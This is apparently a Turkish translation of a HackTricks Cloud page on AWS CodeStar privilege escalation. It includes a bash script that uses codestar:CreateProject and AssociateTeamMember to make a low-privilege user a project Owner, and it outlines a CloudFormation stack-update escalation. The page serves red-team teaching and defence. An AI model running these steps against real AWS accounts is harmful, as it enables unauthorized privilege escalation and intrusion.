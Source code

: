 # AWS - Codestar Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Codestar

Codestar hakkında daha fazla bilgi bulabilirsiniz:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `iam:PassRole`, `codestar:CreateProject`

Bu izinlerle **bir codestar IAM Rolünü** kötüye kullanarak **rastgele eylemler** gerçekleştirebilirsiniz **cloudformation şablonu** aracılığıyla. Aşağıdaki sayfayı kontrol edin:

{% content-ref url="iam-passrole-codestar-createproject.md" %}
[iam-passrole-codestar-createproject.md](iam-passrole-codestar-createproject.md)
{% endcontent-ref %}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

Bu teknik, bir codestar projesi oluşturmak için `codestar:CreateProject` kullanır ve `codestar:AssociateTeamMember` ile bir IAM kullanıcısını yeni bir CodeStar **projesinin** **sahibi** yapar, bu da onlara **birkaç ekstra izinle yeni bir politika** verecektir.
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
Eğer zaten **projenin üyesiyseniz**, rolünüzü `codestar:AssociateTeamMember` yerine **`codestar:UpdateTeamMember`** iznini kullanarak **sahip** olarak **güncelleyebilirsiniz**.

**Olası Etki:** Codestar politikasına privesc. O politikanın bir örneğini burada bulabilirsiniz:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `codestar:CreateProjectFromTemplate`

1. **Yeni Bir Proje Oluşturun:**
* Yeni bir projenin oluşturulmasını başlatmak için **`codestar:CreateProjectFromTemplate`** eylemini kullanın.
* Başarılı bir şekilde oluşturulduğunda, **`cloudformation:UpdateStack`** izni otomatik olarak verilir.
* Bu erişim, `CodeStarWorker-<generic project name>-CloudFormation` IAM rolü ile ilişkili bir yığına yöneliktir.
2. **Hedef Yığını Güncelleyin:**
* Verilen CloudFormation izinleri ile belirtilen yığını güncellemeye devam edin.
* Yığının adı genellikle iki modelden birine uyar:
* `awscodestar-<generic project name>-infrastructure`
* `awscodestar-<generic project name>-lambda`
* Kesin ad, seçilen şablona bağlıdır (örnek istismar betiğine bakınız).
3. **Erişim ve İzinler:**
* Güncelleme sonrası, yığın ile bağlantılı **CloudFormation IAM rolü** tarafından atanan yetenekleri elde edersiniz.
* Not: Bu, doğası gereği tam yönetici ayrıcalıkları sağlamaz. Ayrıcalıkları daha da yükseltmek için ortamda ek yanlış yapılandırılmış kaynaklar gerekebilir.

Daha fazla bilgi için orijinal araştırmaya bakın: [https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/).\
İstismarı [https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar_createprojectfromtemplate_privesc/CodeStarPrivEsc.py) adresinde bulabilirsiniz.

**Olası Etki:** Cloudformation IAM rolüne privesc.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.**

</details>
{% endhint %}
